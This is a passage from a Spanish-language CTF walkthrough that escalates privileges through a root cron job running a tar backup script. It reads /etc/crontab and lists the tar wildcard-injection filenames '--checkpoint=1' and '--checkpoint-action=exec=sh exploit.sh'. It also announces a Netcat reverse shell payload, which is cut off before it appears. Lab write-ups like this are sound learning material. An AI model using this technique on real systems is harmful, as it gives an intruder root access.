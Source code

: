<img width="861" height="284" alt="vemos archivo crtontab" src="https://github.com/user-attachments/assets/2c14bb18-a4eb-4220-bd87-b952ae7bb2e4" />


El script de backup (/home/milesdyson/backups/backup.sh) es el objetivo. Revisamos el archivo /etc/crontab para confirmar que este script se ejecuta automáticamente y con qué usuario.

💻 Comando:
````
Bash

cat /etc/crontab
````
📄 Contenido Relevante:

El archivo /etc/crontab revela una tarea programada:

*m h dom mon dow user  command*

* * * * * root /home/milesdyson/backups/backup.sh       
        * 

Conclusión: El script /home/milesdyson/backups/backup.sh se ejecuta cada minuto (* * * * *) como el usuario root. ¡Esto confirma el camino a la escalada de privilegios!


## 🧐 Paso 21: Investigación de la Escalada y Preparación de la Shell

Mientras enumerábamos en el Paso 19, la vulnerabilidad en el Cron Job que usa el comando tar con wildcard (comodín *) fue identificada como la ruta de escalada. Este paso documenta la investigación y la preparación final del payload.

1. Investigación de la Vulnerabilidad (Wildcard Injection)

<img width="1171" height="745" alt="vemos pagina para escalada de privilegios" src="https://github.com/user-attachments/assets/17390060-26e0-452f-830d-cc4e968dd886" />

Una búsqueda rápida en línea (como se sugiere en la captura) confirma que el uso del comodín (*) en comandos de tar ejecutados por root es vulnerable a Wildcard Injection.

Técnica: Crear archivos que simulen opciones de tar para forzar la ejecución de un script arbitrario.

Archivos necesarios:

--checkpoint=1

--checkpoint-action=exec=sh exploit.sh

exploit.sh (nuestro reverse shell final).

2. Generación del Payload de Root Shell

Para garantizar la estabilidad y la conexión, utilizamos una herramienta de generación de reverse shell (como Reverse Shell Generator o msfvenom si fuera necesario) para obtener el payload de Netcat.

<img width="1153" height="640" alt="utilziamos reverseshell generatpr" src="https://github.com/user-attachments/assets/ad2f9463-6cd6-45ce-b471-f1e7d855c7a7" />


💻 Payload de exploit.sh (Usando un Listener en el puerto 9999):
